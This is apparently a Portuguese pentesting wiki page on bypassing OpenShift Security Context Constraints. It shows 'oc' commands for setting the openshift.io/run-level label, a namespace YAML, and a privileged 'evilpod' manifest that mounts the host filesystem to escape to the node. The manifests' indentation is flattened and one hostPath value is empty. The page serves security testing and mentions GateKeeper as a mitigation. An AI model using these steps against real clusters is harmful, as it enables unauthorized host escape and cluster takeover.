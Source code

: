 # Openshift - SCC bypass

**O autor original desta página é** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Namespaces Privilegiados

Por padrão, o SCC não se aplica aos seguintes projetos:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Se você implantar pods dentro de um desses namespaces, nenhum SCC será aplicado, permitindo a implantação de pods privilegiados ou a montagem do sistema de arquivos do host.

## Rótulo de Namespace

Há uma maneira de desativar a aplicação do SCC em seu pod de acordo com a documentação da RedHat. Você precisará ter pelo menos uma das seguintes permissões:

- Criar um Namespace e Criar um Pod neste Namespace
- Editar um Namespace e Criar um Pod neste Namespace
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
A etiqueta específica `openshift.io/run-level` permite que os usuários contornem os SCCs para aplicativos. De acordo com a documentação da RedHat, quando essa etiqueta é utilizada, nenhum SCC é aplicado a todos os pods dentro desse namespace, efetivamente removendo quaisquer restrições.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Adicionar Etiqueta

Para adicionar a etiqueta no seu namespace:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Para criar um namespace com o rótulo através de um arquivo YAML:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Agora, todos os novos pods criados no namespace não devem ter nenhum SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

Na ausência de SCC, não há restrições na definição do seu pod. Isso significa que um pod malicioso pode ser facilmente criado para escapar para o sistema host.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Agora, tornou-se mais fácil escalar privilégios para acessar o sistema host e, subsequentemente, assumir todo o cluster, ganhando privilégios de 'cluster-admin'. Procure pela parte **Node-Post Exploitation** na seguinte página:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Rótulos personalizados

Além disso, com base na configuração alvo, alguns rótulos / anotações personalizados podem ser usados da mesma forma que no cenário de ataque anterior. Mesmo que não seja feito para isso, rótulos podem ser usados para conceder permissões, restringir ou não um recurso específico.

Tente procurar por rótulos personalizados se você puder ler alguns recursos. Aqui está uma lista de recursos interessantes:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Liste todos os namespaces privilegiados
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Exploit avançado

No OpenShift, como demonstrado anteriormente, ter permissão para implantar um pod em um namespace com o rótulo `openshift.io/run-level` pode levar a uma tomada de controle direta do cluster. Do ponto de vista das configurações do cluster, essa funcionalidade **não pode ser desativada**, pois é inerente ao design do OpenShift.

No entanto, medidas de mitigação como **Open Policy Agent GateKeeper** podem impedir que os usuários definam esse rótulo.

Para contornar as regras do GateKeeper e definir esse rótulo para executar uma tomada de controle do cluster, **os atacantes precisariam identificar métodos alternativos.**

## Referências

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
